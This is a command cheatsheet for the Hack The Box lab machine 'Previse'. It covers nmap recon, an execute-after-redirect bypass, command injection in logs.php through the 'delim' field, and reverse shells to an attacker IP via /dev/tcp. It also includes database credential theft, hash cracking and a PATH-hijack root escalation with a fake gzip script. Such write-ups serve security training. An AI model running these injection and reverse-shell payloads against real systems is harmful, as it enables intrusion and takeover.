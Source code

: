 # HTB: Previse — Command Cheatsheet

## 📌 Box Info
- **Name:** Previse
- **IP:** 10.10.11.104
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.104
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.104
```

---

## 🕵️ EAR Vulnerability (Execute After Redirect)
- Intercept `HTTP 302` redirect and change it to `200 OK` in Burp Suite.
- Burp ➝ Proxy ➝ Intercept Server Responses ➝ Enable ➝ Intercept Response ➝ Modify `302 Found` to `200 OK`

---

## 👤 Account Creation (via EAR Bypass)
- Navigate to `/accounts.php` using modified redirect bypass.
- Fill out user registration ➝ Login normally after creation.

---

## 📦 Download Site Source
- Navigate to `/files.php` and download `siteBackup.zip`
- Unzip to reveal all PHP source files.

---

## 🧪 Command Injection in logs.php
### Without Source
- Interact with `file_logs.php`
- Modify POST request:
```bash
delim=comma;ping+-c+1+10.10.14.6
```

### With Source
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

---

## ⚙️ Gaining Reverse Shell (as www-data)
```bash
# Listener
nc -lnvp 443

# Burp ➝ Intercept POST ➝ Modify
POST /logs.php

delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' #
```

### Shell Upgrade
```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
TERM=screen
```

---

## 🔍 Enumeration (as www-data)
```bash
cat /var/www/html/config.php
mysql -u root -p'mySQL_p@ssw0rd!:)'
```

### Dump User Hash
```sql
select * from accounts;
```

### Crack Hash
```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔐 Shell as m4lwhere (via SSH)
```bash
ssh m4lwhere@10.10.11.104
# password: ilovecody112235!
```

---

## 🔼 Root Escalation — Path Hijack
### Sudo Priv
```bash
sudo -l
```
```bash
(ALL) NOPASSWD: /opt/scripts/access_backup.sh
```

### Create Malicious gzip
```bash
cd /dev/shm
echo '#!/bin/bash' > gzip
echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' >> gzip
chmod +x gzip
export PATH=/dev/shm:$PATH

# Listener:
nc -lnvp 443

# Trigger
sudo /opt/scripts/access_backup.sh
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📚 Resources
- EAR Ref: OWASP Execute After Redirect
- SQLi INSERT Exploit: George Koniaris video
- Beyond Root:
  - Misconfigured `/etc/sudoers`
  - `secure_path` omitted ➝ Path Hijack vulnerability